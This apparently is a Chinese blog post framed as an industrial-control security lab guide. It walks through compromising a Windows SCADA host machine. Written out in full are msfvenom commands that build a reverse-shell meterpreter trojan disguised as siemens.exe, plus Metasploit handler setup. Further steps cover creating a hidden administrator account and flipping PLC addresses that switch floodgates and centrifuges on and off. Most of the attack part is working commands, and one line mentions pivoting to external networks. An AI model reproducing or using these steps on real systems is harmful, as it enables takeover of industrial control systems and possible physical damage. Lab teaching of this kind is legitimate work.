 ```yaml
---
layout: post
title:  "工控上位机攻击步骤（windows）"
date:   2018-11-24 
author: co0ontty
cover: '/assets/img/posts/swj-4.png'
categories: 工控 windows shell ALL
tags: 工控 windows shell ALL
describe: 工控安全实验指南-攻击上位机
---
```


## 攻入上位机获取控制权限实验说明

#### 一：针对上位机的windows系统制作shell反弹木马

1.在linux里使用工具包中的msfinstall文件安装msf攻击套件（kali操作系统中默认集成该工具），具体步骤如下：  
1.使用cd命令进入到工具包文件夹中  
2.使用命令赋予安装程序相关权限  

```shell
 chmod +x msfinstall
```

3.使用命令安装msf  

```shell
./msfinstall
```

2.获取攻击机的ip地址及端口  
![avatar](/assets/img/posts/swj-1.png)  
lo显示为网线连接的网络信息，en0显示的是无线连接的网络信息（后续实验默认使用192.168.199.137为攻击机ip）  
3.生成shell回弹木马  
如下图在终端中直接输入以下命令生成木马程序  

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.199.137 LPORT=7777 -f exe -o /Users/co0ontty/siemens.exe  
lhost和lport为攻击机ip和端口
参考Frp使用教程可以实现通过跳板的外网渗透
```

（lhost为攻击机ip，lport为攻击机接收shell的端口，-o 后的参数需更改为攻击机保存木马的文件夹）  
![avatar](/assets/img/posts/swj-2.png)  
4.运行msfconsole连接shell  
1.终端中直接输入msfconsole使用（第一次输入需要配置数据库，默认全部选择yes）  
2.如下图设置exploit和payload  

```shell
Use exploit/multi/handler  
Set payload windows/meterpreter/reverse_tcp
```

3.设置攻击机ip和监听端口  

```shell
Set lhost 192.168.199.137  
Set lport 7777
```

4.运行程序  

```shell
run
```

配置完成如下图所示  
![avatar](/assets/img/posts/swj-3.png)  
5.获得上位机权限  
1.将木马拷贝到上位机中运行（win10及以上系统需要右键使用管理员身份运行）  
2.攻击机获得反弹的shell（如下图所示）  
![avatar](/assets/img/posts/swj-4.png)  
6.新建管理员账户  
1.新建账户  
![avatar](/assets/img/posts/swj-5.png)  
2.将新建的账户提升为管理员  

```shell
Net localgroup “Administrators” 123 /add
```

3.使用远程桌面连接，并使用该账户登陆  
7.读取工控设备基本信息  
1.打开工控管理软件，双击项目打开项目  
2选择打开项目试图选项，进入组态视图（如下图所示）  
![avatar](/assets/img/posts/swj-6.png)  
3.选择相应plc，打开plc变量选项，双击打开所有变量查看变量表  
![avatar](/assets/img/posts/swj-7.png)  

#### 二：使用工具修改相关地址变量达到预期效果

下面使用的工具存在于工具包中测试文件夹中(工具包下载地址：https://download.csdn.net/download/weixin_38830346/10868092 )  
环境配置：  
1.运行前请将snap7.dll和snap7.lib拷贝到你的操作系统对应的版本的System32(32位)或SysWOW64(64位)下  
2.连通192.168.1.8  
一：水闸开关测试  
1.打开PLC调试.exe  
2.读取I  1.0的参数  
3.通过更改I 1.0 的参数值来改变水闸的开关状态（可改变的参数为0和1，默认0为关闭状态1为开启状态）  
二：离心机测试  
1.打开PLC调试  
2.读取Q 2.0，Q 2.1，Q 2.2，Q 2.3 的参数  
3.通过更改这四个地址的参数来改变这四个离心机的状态 （可改变的参数为0和1，默认0为关闭状态，1为开启状态）  
